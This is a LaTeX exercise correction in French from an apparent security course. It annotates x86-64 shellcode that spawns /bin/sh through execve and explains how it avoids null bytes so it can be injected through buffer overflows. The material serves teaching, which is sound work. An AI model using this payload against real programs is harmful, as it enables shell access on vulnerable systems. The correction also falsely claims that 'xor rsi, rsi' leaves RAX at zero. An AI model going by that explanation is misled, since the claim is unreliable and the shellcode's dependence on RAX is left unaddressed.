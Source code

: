 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}

\textbf{2a)} Annotation instruction par instruction :
\begin{enumerate}
    \item \texttt{xor rsi, rsi} : met RSI à 0. RSI sera le 2\textsuperscript{e} argument de \texttt{execve} (\texttt{argv = NULL}).
    \item \texttt{push rsi} : empile 0 sur la pile. Ce zéro servira de terminateur \texttt{\textbackslash 0} pour la chaîne.
    \item \texttt{movabs rdi, 0x68732f2f6e69622f} : charge l'encodage ASCII de \texttt{"/bin//sh"} dans RDI (en little-endian : \texttt{2f}=\texttt{/}, \texttt{62}=\texttt{b}, \texttt{69}=\texttt{i}, \texttt{6e}=\texttt{n}, \texttt{2f}=\texttt{/}, \texttt{2f}=\texttt{/}, \texttt{73}=\texttt{s}, \texttt{68}=\texttt{h}).
    \item \texttt{push rdi} : empile la chaîne \texttt{"/bin//sh"} sur la pile.
    \item \texttt{push rsp} : empile l'adresse du sommet de pile (qui pointe vers \texttt{"/bin//sh"}).
    \item \texttt{pop rdi} : RDI = adresse de la chaîne \texttt{"/bin//sh"} (1\textsuperscript{er} argument de \texttt{execve}).
    \item \texttt{xor rdx, rdx} : met RDX à 0. RDX sera le 3\textsuperscript{e} argument de \texttt{execve} (\texttt{envp = NULL}).
    \item \texttt{mov al, 59} : charge le numéro de syscall \texttt{execve} (59) dans AL (octet bas de RAX). On utilise AL plutôt que RAX car RAX est déjà à 0 (après \texttt{xor rsi,rsi} le CPU maintient les bits hauts à 0 suite aux opérations précédentes), et \texttt{mov al, 59} est codé sur 2 octets sans null byte.
    \item \texttt{syscall} : déclenche l'appel système avec RAX=59, RDI=$\to$\texttt{"/bin//sh"}, RSI=0, RDX=0.
\end{enumerate}

\textbf{2b)} \texttt{mov rsi, 0} est encodé comme \texttt{48 c7 c6 \textbf{00 00 00 00}} : il contient des \textbf{octets nuls} (\texttt{0x00}). Or les fonctions comme \texttt{gets()}, \texttt{strcpy()} interprètent \texttt{0x00} comme un terminateur de chaîne et arrêtent la copie. Le shellcode serait donc \textbf{tronqué}.

\texttt{xor rsi, rsi} est encodé comme \texttt{48 31 f6} (3 octets, aucun null byte) et produit le même résultat : $x \oplus x = 0$.


\end{correction}
\end{exercice}
\end{document}
